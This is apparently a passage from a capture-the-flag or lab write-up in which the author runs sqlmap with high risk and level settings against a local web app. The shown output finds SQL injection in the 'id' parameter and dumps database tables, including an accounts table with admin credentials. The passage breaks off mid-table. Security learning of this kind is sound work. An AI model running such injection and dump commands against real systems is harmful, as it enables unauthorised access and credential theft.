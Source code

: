 ```shell
    pass
```

Once the middleware worked I ran sqlmap.

```shell
$ sqlmap http://localhost:8081/?id=227 -v --level 3 --risk 3 --batch --dump-all --flush-session
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.5#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


...

[22:29:27] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable
[22:29:35] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite'
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (3) value? [Y/n] Y
[22:29:35] [INFO] testing 'Generic inline queries'
[22:29:35] [INFO] testing 'SQLite inline queries'
[22:29:35] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[22:29:36] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[22:29:36] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[22:29:36] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[22:30:02] [INFO] GET parameter 'id' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[22:30:02] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:30:02] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:30:09] [INFO] target URL appears to be UNION injectable with 1 columns
[22:30:09] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
...
[22:30:09] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[22:30:09] [INFO] sqlmap will dump entries of all tables from all databases now
[22:30:09] [INFO] fetching tables for database: 'SQLite_masterdb'
[22:30:10] [INFO] fetching columns for table 'messages'
[22:30:10] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[22:30:10] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/dasor/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/messages.csv'
[22:30:10] [INFO] fetching columns for table 'accounts'
[22:30:11] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
```